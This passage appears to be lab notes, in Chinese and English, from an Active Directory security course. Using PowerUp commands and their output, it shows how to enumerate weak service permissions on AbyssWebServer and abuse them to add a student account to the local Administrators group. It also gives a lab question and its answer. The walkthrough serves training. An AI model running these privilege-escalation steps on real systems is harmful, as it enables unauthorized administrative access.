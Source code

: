 ServiceAbused  Command
-------------  -------
AbyssWebServer net localgroup Administrators dcorp\student366 /add

```

枚举所有可以修改服务二进制文件的服务文件（ services where the current can make changes to service binary）
```

PS C:\AD> Get-ModifiableServiceFile -Verbose
VERBOSE: Add-ServiceDacl IndividualService : AbyssWebServer


ServiceName                     : AbyssWebServer
Path                            : C:\WebServer\Abyss Web Server\WebServer\abyssws.exe --service
ModifiableFile                  : C:\WebServer\Abyss Web Server\WebServer
ModifiableFilePermissions       : AppendData/AddSubdirectory
ModifiableFileIdentityReference : BUILTIN\Users
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'AbyssWebServer'
CanRestart                      : True

VERBOSE: Add-ServiceDacl IndividualService : AbyssWebServer
ServiceName                     : AbyssWebServer
Path                            : C:\WebServer\Abyss Web Server\WebServer\abyssws.exe --service
ModifiableFile                  : C:\WebServer\Abyss Web Server\WebServer
ModifiableFilePermissions       : WriteData/AddFile
ModifiableFileIdentityReference : BUILTIN\Users
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'AbyssWebServer'
CanRestart                      : True

```

enumerate services with weak service permissions.
```
 PS C:\AD> Get-ModifiableService -Verbose
VERBOSE: Add-ServiceDacl IndividualService : AbyssWebServer
VERBOSE: Current user has 'ChangeConfig' for AbyssWebServer
VERBOSE: Add-ServiceDacl IndividualService : AbyssWebServer


ServiceName   : AbyssWebServer
Path          : C:\WebServer\Abyss Web Server\WebServer\abyssws.exe --service
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'AbyssWebServer'
CanRestart    : True

```

问题：Service abused on the student VM for local privilege escalation
答案：AbyssWebServer


根据Get-ModifiableService枚举的结果，使用Invoke-ServiceAbuse，把当前账号添加到本地管理员组
```
PS C:\AD>
PS C:\AD> Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\student366'

